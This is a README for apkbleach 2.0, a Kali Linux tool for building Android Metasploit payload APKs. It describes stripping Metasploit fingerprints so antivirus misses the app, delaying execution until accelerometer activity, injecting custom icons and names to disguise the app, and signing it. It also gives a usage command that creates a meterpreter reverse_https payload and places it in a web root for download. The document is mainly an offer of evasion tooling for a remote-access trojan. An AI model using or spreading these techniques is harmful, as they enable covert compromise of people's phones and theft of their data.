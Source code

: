 # apkbleach_2.0
The newest release of apkbleach

About:

This software was developed specifically for Kali-Linux to remove the obvious fingerprints of metasploit through out a android PAYLOAD along with assisting the user in making PAYLOAD.apk more installable across a wider range of devices.

Features:

1) Line by line permissions editing. The software will go through each permission in the manifest and ask if you want to delete it.

2) Stealth option. This executes the payload off the devices accelerometer instead of on open. This option also allows you to choose how many sessions you want spawned of exploit.

3) Custom icon injection. This allows users to modify the app icon that appears on the home screen of a android device. You can choose from a icon apkbleach provides or you can supply your own. Apkbleach will do all the work for you.

4) Renames the application to the name you put chose as the ouput file

5) Scrubs the entire application of any mentions of the name "metasploit" or "stage". There are a lot by the way. sending security testing with an app that contains the name metasploit is just funny :-)

6) Adds padnops to PAYLOAD

7) Signs apk with jarsigner. msfenom produces unsigned apps

8) Zip aligns apk

9) Apktool upgrade feature. If the software detects youre using apktool version 2.4.1-dirty which is Kali's package maintainers version it will ask if you want to replace it with the lates version frfom ibot peaches. This is a good idea because it conflicts with the msfvenom -x option and throws a version number error. Not to mention the problems it has given users in the past.

Usage:

apkbleach -g android/meterpreter/reverse_https LHOST=Address LPORT=port -s 3 -i BLEACH_settings --edit-permissions -o /var/www/html/payload.apk

 apkbleach --list-payloads
 apkbleach --list-icons
 apkbleach --clear-cache

optional arguments:
  -h, --help            show this help message and exit
  -g [PAYLOAD] [LHOST] [LPORT]
                        Generates a payload
  -s [number of sessions to spawn 1-5]
                        Executes payload on accelerometer activity instead of on open
  -i [BLEACH_icon..] or [path/to/custom/icon]
                        Injects an icon
  -o [output/path/for/apk]
                        Path to output apk
  --edit-permissions    Enables permission editing in apk's manifest
  --list-payloads       List available icons
  --list-icons          List available icons
  --clear-cache         Allows prompt whether to keep package maintainers version apktool
